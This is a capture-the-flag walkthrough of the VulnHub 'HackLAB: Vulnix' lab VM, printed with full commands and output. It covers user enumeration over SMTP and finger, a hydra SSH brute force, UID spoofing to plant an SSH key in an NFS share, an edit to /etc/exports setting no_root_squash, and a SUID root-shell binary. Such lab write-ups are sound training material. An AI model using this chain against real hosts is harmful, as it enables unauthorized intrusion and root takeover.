

#HackLAB: Vulnix
https://www.vulnhub.com/entry/hacklab-vulnix,48/
This box is similar to Kioptrix 1 except there's a few more steps along the way. Not big ones, though.
0) Find the VM's IP
To find your VM's IP address, set your VM to ‘bridged’ so that it gets assigned an IP on your internal network and then use netdiscover to scan your network: netdiscover -r <internal network>/24
netdiscover -r 192.168.1.1/24
192.168.1.189 is my Vulnix box.
Take a snapshot of the VM at this point, just to be safe.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.189
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/vulnix# mkdir nmap
root@kali:~/ctf/vulnix# nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.189
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-12 14:12 BST
Nmap scan report for vulnix.lan (192.168.1.189)
Host is up (0.0016s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
| 2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_ 256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
|_ssl-date: 2019-04-12T13:15:30+00:00; +2s from scanner time.
79/tcp open finger Linux fingerd
|_finger: No one logged on.\x0D
110/tcp open pop3?
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/udp nfs
| 100005 1,2,3 46633/udp mountd
| 100005 1,2,3 47446/tcp mountd
| 100021 1,3,4 33696/tcp nlockmgr
| 100021 1,3,4 57502/udp nlockmgr
| 100024 1 44218/tcp status
| 100024 1 52215/udp status
| 100227 2,3 2049/tcp nfs_acl
|_ 100227 2,3 2049/udp nfs_acl
143/tcp open imap Dovecot imapd
512/tcp open exec?
513/tcp open login OpenBSD or Solaris rlogind
514/tcp open tcpwrapped
993/tcp open ssl/imaps?
995/tcp open ssl/pop3s?
2049/tcp open nfs_acl 2-3 (RPC #100227)
MAC Address: 00:0C:29:95:22:62 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
Service Info: Host: vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 296.42 seconds
Lots of ports.
A full port scan just reveals the rest of the rpc ports, which we don't need.
• 22/ssh needs to be noted down for later.
• 25/smtp can be used to enumerate users on the system.
• 79/tcp can be used to distinguish system users from legitimate users.
• 513/rsh and 514/rlogin can be used to bruteforce login credentials if you choose.
• 2049/nfs is the last interesting port of the bunch.
2) 2049/nfs
You might need to install nfs-common to access the file share first. I did.
Check the network file share with showmount -e 192.168.1.189 and mount it with mount 192.168.1.189:/ nfs1
Create a temp directory for it to be mounted to as well.
root@kali:~/ctf/vulnix# apt install nfs-common
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
keyutils libnfsidmap2 rpcbind
Suggested packages:
open-iscsi watchdog
The following NEW packages will be installed:
keyutils libnfsidmap2 nfs-common rpcbind
0 upgraded, 4 newly installed, 0 to remove and 69 not upgraded.
Need to get 375 kB of archives.
After this operation, 1,167 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
...
root@kali:~/ctf/vulnix# showmount -e 192.168.1.189
Export list for 192.168.1.189:
/home/vulnix *
root@kali:~/ctf/vulnix# mkdir 2049nfs
root@kali:~/ctf/vulnix# cd 2049nfs/
root@kali:~/ctf/vulnix/2049nfs# mkdir nfs1
root@kali:~/ctf/vulnix/2049nfs# mount 192.168.1.189:/ nfs1
root@kali:~/ctf/vulnix/2049nfs# ls -alh
total 12K
drwxr-xr-x 3 root root 4.0K Apr 12 16:29 .
drwxr-xr-x 4 root root 4.0K Apr 12 16:29 ..
drwxr-xr-x 22 root root 4.0K Sep 2 2012 nfs1
root@kali:~/ctf/vulnix/2049nfs# cd nfs1/
root@kali:~/ctf/vulnix/2049nfs/nfs1# ls -alh
total 12K
drwxr-xr-x 22 root root 4.0K Sep 2 2012 .
drwxr-xr-x 3 root root 4.0K Apr 12 16:29 ..
drwxr-xr-x 4 root root 4.0K Sep 2 2012 home
root@kali:~/ctf/vulnix/2049nfs/nfs1# cd home
root@kali:~/ctf/vulnix/2049nfs/nfs1/home# ls -alh
total 12K
drwxr-xr-x 4 root root 4.0K Sep 2 2012 .
drwxr-xr-x 22 root root 4.0K Sep 2 2012 ..
drwxr-x--- 2 nobody 4294967294 4.0K Sep 2 2012 vulnix
root@kali:~/ctf/vulnix/2049nfs/nfs1/home# cd vulnix
bash: cd: vulnix: Permission denied
root@kali:~/ctf/vulnix/2049nfs/nfs1/home#
Alas, we can't access anything. We would be able to if we knew vulnix's UID, but we don't.
However, we did get a username out of this - vulnix
3) Moar users
You can use 25/smtp to enumerate users on the system.
root@kali:~/ctf/vulnix# mkdir 25smtp
root@kali:~/ctf/vulnix# cd 25smtp/
root@kali:~/ctf/vulnix/25smtp# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.189
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
----------------------------------------------------------
| Scan Information |
----------------------------------------------------------
Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 113
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............
######## Scan started at Fri Apr 12 16:23:10 2019 #########
192.168.1.189: ROOT exists
192.168.1.189: backup exists
192.168.1.189: bin exists
192.168.1.189: daemon exists
192.168.1.189: games exists
192.168.1.189: gnats exists
192.168.1.189: irc exists
192.168.1.189: libuuid exists
192.168.1.189: list exists
192.168.1.189: lp exists
192.168.1.189: mail exists
192.168.1.189: man exists
192.168.1.189: messagebus exists
192.168.1.189: news exists
192.168.1.189: nobody exists
192.168.1.189: postmaster exists
192.168.1.189: proxy exists
192.168.1.189: root exists
192.168.1.189: sshd exists
192.168.1.189: sync exists
192.168.1.189: sys exists
192.168.1.189: syslog exists
192.168.1.189: user exists
192.168.1.189: uucp exists
192.168.1.189: www-data exists
######## Scan completed at Fri Apr 12 16:26:18 2019 #########
25 results.
113 queries in 3 seconds (56.5 queries / sec)
Most of the users here look like system users and not legitimate users on the machine.
3a) 79/finger
As a follow up, you can use 79/finger to find real users on the machine; those with a home directory.
Kali doesn't have this script built-in so you'll have to download it from pentestmonkey's github.
https://github.com/pentestmonkey/finger-user-enum
I made of custom wordlist of the users enumerated from smtp-user-enum + vulnix attached onto the end.
root@kali:~/ctf/vulnix# mkdir 79finger
root@kali:~/ctf/vulnix# cd 79finger/
root@kali:~/ctf/vulnix/79finger# wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl
--2019-04-12 17:49:49-- https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.16.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.16.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12477 (12K) [text/plain]
Saving to: ‘finger-user-enum.pl’
finger-user-enum.pl 100%[===================================>] 12.18K --.-KB/s in 0.003s
2019-04-12 17:49:49 (4.02 MB/s) - ‘finger-user-enum.pl’ saved [12477/12477]
root@kali:~/ctf/vulnix/79finger# ls
finger-user-enum.pl
root@kali:~/ctf/vulnix/79finger# chmod +x finger-user-enum.pl
root@kali:~/ctf/vulnix/79finger# ./finger-user-enum.pl
finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )
Usage: finger-user-enum.pl [options] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )
options are:
-m n Maximum number of resolver processes (default: 5)
-u user Check if user exists on remote system
-U file File of usernames to check via finger service
-t host Server host running finger service
-T file File of hostnames running the finger service
-r host Relay. Intermediate server which allows relaying of finger requests.
-p port TCP port on which finger service runs (default: 79)
-d Debugging output
-s n Wait a maximum of n seconds for reply (default: 5)
-v Verbose
-h This help message
Also see finger-user-enum-user-docs.pdf from the finger-user-enum tar ball.
Examples:
$ finger-user-enum.pl -U users.txt -t 10.0.0.1
$ finger-user-enum.pl -u root -t 10.0.0.1
$ finger-user-enum.pl -U users.txt -T ips.txt
root@kali:~/ctf/vulnix/79finger# ./finger-user-enum.pl -U ../wordlists/smtpUsers.txt -t 192.168.1.189
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )
----------------------------------------------------------
| Scan Information |
----------------------------------------------------------
Worker Processes ......... 5
Usernames file ........... ../wordlists/smtpUsers.txt
Target count ............. 1
Username count ........... 15
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used
######## Scan started at Fri Apr 12 17:51:11 2019 #########
Login: lp
Name: lp
Directory: /var/spool/lpd
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: bin
Name: bin
Directory: /bin
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: daemon
Name: daemon..Directory: /usr/sbin
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: root
Name: root..
Directory: /root
Shell: /bin/bash..Never logged in...No mail...No Plan...
Login: mail
Name: mail..Directory: /var/mail
Shell: /bin/sh..Never logged in...No mail...No Plan.....
Login: dovecot
Name: Dovecot mail server..
Directory: /usr/lib/dovecot
Shell: /bin/false..Never logged in...No mail...No Plan...
Login: news
Name: news..
Directory: /var/spool/news
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: uucp
Name: uucp..
Directory: /var/spool/uucp
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: nobody
Name: nobody..Directory: /nonexistent
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: games
Name: games..Directory: /usr/games
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: vulnix
Name: ..Directory: /home/vulnix
Shell: /bin/bash..Never logged in...No mail...No Plan...
Login: backup
Name: backup..Directory: /var/backups
Shell: /bin/sh..Never logged in...No mail...No Plan...
Login: user
Name: user..Directory: /home/user
Shell: /bin/bash..Never logged in...No mail...No Plan.....
Login: dovenull
Name: Dovecot login user..Directory: /nonexistent
Shell: /bin/false..Never logged in...No mail...No Plan...
Login: man
Name: man..Directory: /var/cache/man
Shell: /bin/sh..Never logged in...No mail...No Plan...
######## Scan completed at Fri Apr 12 17:51:11 2019 #########
14 results.
It turns out there are 2 users with home directories:
Login: vulnix
Name: ..Directory: /home/vulnix
Shell: /bin/bash..Never logged in...No mail...No Plan...
Login: user
Name: user..Directory: /home/user
Shell: /bin/bash..Never logged in...No mail...No Plan.....
These will be our 2 candidates for ssh bruteforce.
4) ssh
The rationale behind bruteforcing ssh is that everything else seemed like a dead end at this point.
It should also be a ‘try it, may as well’ response, to bruteforce ssh, whenever you manage to enumerate legitimate users a system.
Make it part of your routine.
I tried bruteforcing vulnix first, then user.
root@kali:~/ctf/vulnix/22ssh# hydra -v -l user -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -e nsr -t 4 -o hydraUserTop1000.txt ssh://192.168.1.189
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-12 17:47:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1003 login tries (l:1/p:0), ~1003 tries per task
[DATA] attacking ssh://192.168.1.189:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@192.168.1.189:22
[INFO] Successful, password authentication is supported by ssh://192.168.1.189:22
[STATUS] 44.00 tries/min, 44 tries in 00:00h, 0 to do in 01:00h, 959 active
[STATUS] 33.33 tries/min, 100 tries in 00:00h, 0 to do in 03:00h, 903 active
[STATUS] 29.29 tries/min, 205 tries in 00:00h, 0 to do in 07:00h, 798 active
[22][ssh] host: 192.168.1.189 login: user password: letmein
[STATUS] attack finished for 192.168.1.189 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-12 17:54:23
And thankfully bruteforcing user returned a password!
ssh in using the username and password.
5) /etc/passwd
I tried looking for a means privilege escalation here, but the only useful bit of information to garner is /etc/passwd
user@vulnix:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
postfix:x:104:110::/var/spool/postfix:/bin/false
dovecot:x:105:112:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:106:65534:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:107:113::/var/lib/landscape:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
vulnix:x:2008:2008::/home/vulnix:/bin/bash
statd:x:109:65534::/var/lib/nfs:/bin/false
This tells us vulnix's UID, which can be used to access the nfs from earlier.
6) 2049/nfs round 2
We now know vulnix's user id (2008) from reading /etc/passwd via ssh user@192.168.1.189
So to access the nfs, create a user on your kali system called vulnix with a uid of 2008.
Make a directory to mount the nfs to - mkdir nfs1 and mount it - mount 192.168.1.189:/ nfs1
After switching user to vulnix - su vulnix, you can now read the the mounted /home/vulnix directory.
root@kali:~/ctf/vulnix/2049nfs# adduser --uid 2008 vulnix
Adding user `vulnix' ...
Adding new group `vulnix' (2008) ...
Adding new user `vulnix' (2008) with group `vulnix' ...
Creating home directory `/home/vulnix' ...
Copying files from `/etc/skel' ...
New password:
Retype new password:
passwd: password updated successfully
Changing the user information for test
Enter the new value, or press ENTER for the default
Full Name []:
Room Number []:
Work Phone []:
Home Phone []:
Other []:
Is the information correct? [Y/n]
root@kali:~/ctf/vulnix/2049nfs# mkdir nfs1
root@kali:~/ctf/vulnix/2049nfs# mount 192.168.1.189:/ nfs1
root@kali:~/ctf/vulnix/2049nfs/nfs1/home# su vulnix
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home$ cd vulnix
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix$ ls -alh
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep 2 2012 .
drwxr-xr-x 4 root root 4.0K Sep 2 2012 ..
-rw-r--r-- 1 vulnix vulnix 220 Apr 3 2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr 3 2012 .bashrc
-rw-r--r-- 1 vulnix vulnix 675 Apr 3 2012 .profile
You can get a shell as vulnix by setting up ssh.
Create an ssh key on your attacking machine - ssh-keygen and cat the public key.
root@kali:~/ctf/vulnix# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): sshVulnix
Enter passphrase (empty for no passphrase): hey
Enter same passphrase again: hey
Your identification has been saved in sshVulnix.
Your public key has been saved in sshVulnix.pub.
The key fingerprint is:
SHA256:IhuaovT/OGpXBF7aYZNQsypaP/o97cXpo//VMYKpegs root@kali
The keys randomart image is:
+---[RSA 2048]----+
| .oo. |
| . *o |
| . *.o |
| o.o o |
| oo.o S o . o |
| ooo+ o o . . +|
|.oo .o.E.. + ..|
|o....o+.ooo. . |
|. .+=+o++++oo. |
+----[SHA256]-----+
root@kali:~/ctf/vulnix# cat sshVulnix.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/zcPzbXDTtxus6IucqlfS7pGWG1kl8Y3q7VNzx2sdRGW+sIqRC6jOcyF32PRdOV/+8fO5QNtOAAim7VVA5izpdB7iUQ1THqkfhJvZtiZ36/+9zTUgpQ/vYQjjTkLDomM3KykUlxktmgrxod7rD4mVUAZgezpWHpO3mQWMXzpe9ugFUnjU2ajfbHF9YrD/1rBGt71nOsT4QxyAAwgCzHdRDYHBPLy3ftX/aU90/xJw/0PuusMRrNE3v4eEWZbIqKbcEolqDCMOK5bLrog+E0KLbeSGhv9EWKTtSC4dAO8gobGvp6fISgwqxUWHW0rKoI+39PXOh7Vc7Wd4adIGd4LD root@kali
Switch user to vulnix (which you created earlier to access the nfs) and cd into the mounted nfs.
Make the .ssh directory and echo the public key you just generated into authorized_keys.
root@kali:~/ctf/vulnix# su vulnix
vulnix@kali:/root/ctf/vulnix$ cd 2049nfs/nfs1/home/vulnix/
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix$ mkdir .ssh
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix$ cd .ssh
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/zcPzbXDTtxus6IucqlfS7pGWG1kl8Y3q7VNzx2sdRGW+sIqRC6jOcyF32PRdOV/+8fO5QNtOAAim7VVA5izpdB7iUQ1THqkfhJvZtiZ36/+9zTUgpQ/vYQjjTkLDomM3KykUlxktmgrxod7rD4mVUAZgezpWHpO3mQWMXzpe9ugFUnjU2ajfbHF9YrD/1rBGt71nOsT4QxyAAwgCzHdRDYHBPLy3ftX/aU90/xJw/0PuusMRrNE3v4eEWZbIqKbcEolqDCMOK5bLrog+E0KLbeSGhv9EWKTtSC4dAO8gobGvp6fISgwqxUWHW0rKoI+39PXOh7Vc7Wd4adIGd4LD root@kali" > authorized_keys
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix/.ssh$ ls -alh
total 12K
drwxr-xr-x 2 vulnix vulnix 4.0K Apr 13 02:17 .
drwxr-xr-x 3 vulnix vulnix 4.0K Apr 13 02:16 ..
-rw-r--r-- 1 vulnix vulnix 391 Apr 13 02:17 authorized_keys
Switch user back to root and navigate to where the the ssh key is saved.
vulnix@kali:/root/ctf/vulnix/2049nfs/nfs1/home/vulnix/.ssh$ su root
Password:
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix/.ssh# cd ~/ctf/vulnix/
And log in using the key!
root@kali:~/ctf/vulnix# ssh -i sshVulnix vulnix@192.168.1.189
Enter passphrase for key 'sshVulnix': hey
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)
...
vulnix@vulnix:~$
7) /etc/exports
See what vulnix can do:
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User vulnix may run the following commands on this host:
(root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
/etc/exports is the config file of the nfs, which we we can edit using sudoedit /etc/exports
Edit the file to read no_root_squash, meaning that now we'll be able to access the nfs as root.
vulnix@vulnix:~$ sudoedit /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
# to NFS clients. See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4 gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix *(rw,no_root_squash)
The only way to get the nfs config to update, in this instance, is to restart the machine.
You can't restart the service or anything because you're not root.
I didn't figure this part out. I looked it up. This is a pretty poorly designed step in the ctf in my opinion; touching the VM is generally regarded as out of bounds :/
Restart the VM

After the restart, we can access the nfs as root
vulnix@kali:/root/ctf/vulnix/2049nfs$ su root
Password:
root@kali:~/ctf/vulnix/2049nfs# cd nfs1/home/vulnix/
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# ls -alh
total 28K
drwxr-xr-x 4 vulnix vulnix 4.0K Apr 13 02:18 .
drwxr-xr-x 4 root root 4.0K Sep 2 2012 ..
-rw-r--r-- 1 vulnix vulnix 220 Apr 3 2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr 3 2012 .bashrc
drwx------ 2 vulnix vulnix 4.0K Apr 13 02:18 .cache
-rw-r--r-- 1 vulnix vulnix 675 Apr 3 2012 .profile
drwxr-xr-x 2 vulnix vulnix 4.0K Apr 13 02:17 .ssh
8) nfs -> root
Since we can access the nfs as root, we can create a suid binary as root that will give us a shell.
Inside the nfs, create a binary that will give you a shell - nano rootme.c , compile it - gcc rootme.c -o rootme - and give it a suid bit - chmod +s rootme
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# nano rootme.c
int main(void) {
setgid(0);
setuid(0);
execl("/bin/bash", "bash", 0);
}
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# gcc rootme.c -o rootme
rootme.c: In function ‘main’:
rootme.c:2:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
setgid(0);
^~~~~~
rootme.c:3:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
setuid(0);
^~~~~~
rootme.c:4:2: warning: implicit declaration of function ‘execl’ [-Wimplicit-function-declaration]
execl("/bin/bash", "bash", 0);
^~~~~
rootme.c:4:2: warning: incompatible implicit declaration of built-in function ‘execl’
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# ls -alh rootme
-rwxr-xr-x 1 root root 16K Apr 13 2019 rootme
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# chmod +s rootme
root@kali:~/ctf/vulnix/2049nfs/nfs1/home/vulnix# ls -alh rootme
-rwsr-sr-x 1 root root 16K Apr 13 13:32 rootme
SSH in as vulnix and run the binary.
You'll be root!
root@kali:~/ctf/vulnix# ssh -i sshVulnix vulnix@192.168.1.189
Enter passphrase for key 'sshVulnix': hey
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)
...
vulnix@vulnix:~$ pwd
/home/vulnix
vulnix@vulnix:~$ ls
rootme rootme.c
vulnix@vulnix:~$ ./rootme
root@vulnix:~# id
uid=0(root) gid=0(root) groups=0(root),2008(vulnix)
root@vulnix:~# cd /root
root@vulnix:/root# ls
trophy.txt